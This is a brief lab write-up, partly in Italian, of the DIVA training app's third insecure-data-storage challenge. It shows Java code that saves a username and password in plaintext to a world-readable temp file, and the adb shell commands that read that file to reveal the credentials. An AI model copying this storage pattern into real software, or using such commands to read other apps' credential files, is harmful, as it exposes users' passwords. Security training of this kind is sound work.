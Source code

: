 ## Insecure Data Storage - Part 3

Codice Vulnerabile:

> app/src/main/java/jakhar/aseem/diva/InsecureDataStorage3Activity.java

```
File ddir =  new File(getApplicationInfo().dataDir);

...

File uinfo = File.createTempFile("uinfo", "tmp", ddir);
uinfo.setReadable(true);
uinfo.setWritable(true);
FileWriter fw = new FileWriter(uinfo);
fw.write(usr.getText().toString() + ":" + pwd.getText().toString() + "\n");
fw.close();
```

Exploit:

- `$ adb shell`

- `# ls /data/data/jakhar.aseem.diva/`

- `# cat /data/data/jakhar.aseem.diva/uinfo1408388359tmp`

```
john:lock
```

